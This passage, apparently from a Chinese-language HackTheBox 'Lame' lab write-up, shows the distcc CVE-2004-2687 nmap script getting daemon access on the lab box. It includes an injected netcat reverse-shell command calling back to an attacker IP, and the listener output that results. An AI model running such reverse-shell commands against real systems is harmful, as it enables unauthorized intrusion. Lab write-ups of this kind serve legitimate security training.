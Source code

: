 可以看到`distcc-exec.cmd`参数即为所执行的命令，将其改为连接命令，如`nc -e /bin/bash 10.10.14.2 4444`，

用`nmap -p 3632 <ip> --script distcc-exec --script-args="distcc-exec.cmd='id'"`这种方法出现了很多意料之外的问题，无法成功获得shell。排查中...

```shell
 NSE: failed to initialize the script engine: 
 /usr/bin/../share/nmap/nse_main.lua:822: 'distcc-exec' did not match a category, filename, or directory
 stack traceback:
        [C]: in function 'error'
        /usr/bin/../share/nmap/nse_main.lua:822: in local 'get_chosen_scripts'         
        /usr/bin/../share/nmap/nse_main.lua:1322: in main chunk 
        [C]: in ?                                                           
         
 QUITTING!        
```

排查结果出来了，虽然用法中写着distcc-exec，但nmap其实并无法识别，只能用全名，对应的后面也需要修改。改成如下后，可成功执行

```shell
 $ sudo nmap -p3632 10.10.10.3 --script=distcc-cve2004-2687.nse --script-args="distcc-cve2004-2687.cmd='nc -e /bin/bash 10.10.14.2 4444'"
 
 $ nc -lvnp 4444
 listening on [any] 4444 ...
 connect to [10.10.14.2] from (UNKNOWN) [10.10.10.3] 42558
 
```

![图片](/resource/HTB靶机-Lame-WriteUp.assets/640-20230220174729769.png)

成功获得了daemon 权限，接下去进行提权

### 提权1：SUID - nmap

